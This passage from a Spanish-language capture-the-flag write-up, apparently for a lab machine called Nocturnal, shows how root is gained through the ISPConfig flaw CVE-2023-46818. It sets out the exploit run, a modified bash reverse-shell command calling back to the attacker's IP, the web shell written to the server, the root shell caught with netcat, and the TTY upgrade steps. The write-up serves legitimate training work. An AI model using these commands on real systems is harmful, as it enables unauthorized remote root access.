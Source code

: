 ### Exploiting

Clonaremos el repositorio de [Github](https://github.com/ajdumanhug/CVE-2023-46818) para llevar a cabo la explotación de esta vulnerabilidad

~~~ bash
git clone https://github.com/ajdumanhug/CVE-2023-46818
cd CVE-2023-46818
~~~

Modificaremos el exploit para enviar un comando que envíe una shell directamente a nuestra máquina

~~~ bash
cmd = "bash -c 'bash -i >& /dev/tcp/10.10.14.237/4444 0>&1'"
~~~


## Root Time

Ejecutaremos el payload modificado para enviar directamente una shell a nuestra máquina atacante por un puerto que seleccionemos

~~~ bash
python3 exploit.py http://localhost:8081 admin slowmotionapocalypse
[+] Logging in with username 'admin' and password 'slowmotionapocalypse'
[+] Login successful!
[+] Fetching CSRF tokens...
[+] CSRF ID: language_edit_314c9e6f2e07c628dd2845ae
[+] CSRF Key: aa2250eafc3095a40adf91f1a7e747bf5aa7aa4f
[+] Injecting shell payload...
[+] Shell written to: http://localhost:8080/admin/sh.php
[+] Launching shell...
~~~

Y desde nuestro listener habremos recibido la shell como `root`

~~~ bash
nc -lvnp 4444               
listening on [any] 4444 ...
connect to [10.10.14.237] from (UNKNOWN) [10.10.11.64] 33164
bash: cannot set terminal process group (830): Inappropriate ioctl for device
bash: no job control in this shell
root@nocturnal:/usr/local/ispconfig/interface/web/admin# id
uid=0(root) gid=0(root) groups=0(root) 
~~~


## TTY Treatment

Finalmente haremos el último tratamiento de la `tty` para hacer más interactiva la consola que obtuvimos

~~~ bash
root@nocturnal:/usr/local/ispconfig/interface/web/admin# script /dev/null -c bash
<onfig/interface/web/admin# script /dev/null -c bash     
Script started, file is /dev/null
root@nocturnal:/usr/local/ispconfig/interface/web/admin# ^Z
[1]  + 58764 suspended  nc -lvnp 4444
root@parrot nocturnal # stty raw -echo; fg                             
[1]  + 58764 continued  nc -lvnp 4444
                                     reset xterm
                             root@nocturnal:/usr/local/ispconfig/interface/web/admin# export TERM=xterm
root@nocturnal:/usr/local/ispconfig/interface/web/admin# stty rows 44 columns 184
~~~
